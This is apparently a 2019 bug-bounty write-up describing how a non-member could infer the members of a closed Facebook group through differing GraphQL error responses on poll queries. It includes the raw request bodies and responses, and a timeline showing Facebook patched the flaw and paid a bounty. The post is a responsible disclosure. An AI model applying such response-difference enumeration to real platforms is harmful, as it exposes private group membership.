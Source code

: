 ```yaml
---
title:  "Disclose members in any Groups."
date:   2019-11-24 12:24:15 +0800
categories: Hacking
classes:
  - landing
header:
  teaser: /assets/img/Facebook.jpg
---
```


I find that any non-member being maybe to disclose members in any closed Facebook group.

## POC / Reprosteps

User A ( In closed group (C) )
User B (non-member)

Poll question.

questionID":"2998452380182679" (Group C) -> user A


```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER A","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response

```
"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,
```

Now repeat step 1 replace member ->  non-members

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER B","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response

As opposed to a user who does not have a member 

``` 

"api_error_code": 200,
"summary": "Insufficient Permission",
"description": "You do not have the necessary permission for the specified Page to perform the requested action.",
"is_silent": false,

```
Replace a member in the group 
USER C ( in closed group )

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER C","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response


```

"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,

```
member is known based on the difference in responses as well as being explicitly stated in the error message.

## Impact

This could potentially let an attacker infer whether a user has a member on a specific group.

## Timeline

13/09/2019: Report Sent

15/09/2019: Confirmation of reproduce by Facebook

19/09/2019: Further Investigation By Facebook

21/09/2019: Patched By Facebook

21/09/2019: Confirmation of patch by Facebook

03/11/2019: $3000 bounty awarded by Facebook


